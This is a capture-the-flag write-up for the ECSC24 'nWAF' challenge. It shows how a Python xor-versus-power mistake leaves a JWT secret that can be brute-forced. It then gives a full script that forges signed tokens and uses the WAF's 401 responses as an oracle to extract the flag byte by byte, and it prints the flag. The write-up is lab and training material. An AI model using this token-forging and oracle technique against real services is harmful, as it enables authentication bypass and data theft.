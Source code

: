 # nWAF

> This year our WAF is even better, it won't leak any meaningful pieces of the flag!
>
> [https://nwaf.ecsc24.hack.cert.pl/](https://nwaf.ecsc24.hack.cert.pl/)
> [nwaf.py](https://hack.cert.pl/files/nwaf-ec1f9efd081f04f1d5eec99196a23532bc911ff0.py)

## Solution
From the source code:
```python
app.config["JWT_SECRET_KEY"] = random.randint(2 ^ 127, 2 ^ 128).to_bytes(16, 'big')
```

As `^` in Python is xor (not exponentiation), there are literally 6 possible values for the secret key, so we can easily find the correct one by checking all options. Now we can use the fact that `waf` will return a 401 if any 4-character substring of the flag appears in the response together with the fact that `hello` will put the username from the signed JWT token in the response to bruteforce the flag byte-by-byte:

```python
import aiohttp
import asyncio
from base64 import b64decode
import jwt
from string import printable

alphabet = printable
key = b64decode('AAAAAAAAAAAAAAAAAAAAfg==')


def token_payload(sub):
    return {
        "fresh": False,
        "iat": 1719737744,
        "jti": "2887c4d1-c024-4741-b2e1-467320b476cc",
        "type": "access",
        "sub": sub,
        "nbf": 1719737744,
        "csrf": "4fabc712-73fa-43c6-9fbf-aa0dc315e855",
        "exp": 1819957560
    }


async def is_ngram(session, ngram):
    token = jwt.encode(token_payload(ngram), key, 'HS256')
    resp = await session.get('https://nwaf.ecsc24.hack.cert.pl/hello', cookies={'access_token_cookie': token})
    return ngram, resp.status == 401


async def check_batch(ngrams):
    async with aiohttp.ClientSession() as session:
        results = await asyncio.gather(*[is_ngram(session, n) for n in ngrams])
    return [r[0] for r in results if r[1]]

flag = 'ecsc24{'

while flag[-1] != '}':
    batch = [flag[-3:] + c for c in alphabet]
    result = asyncio.run(check_batch(batch))
    if len(result) != 1:
        print(result)
        break
    flag += result[0][-1]
    print(flag)
```

## Flag
`ecsc24{mowa_jest_srebrem_a_milczenie_owiec!}`
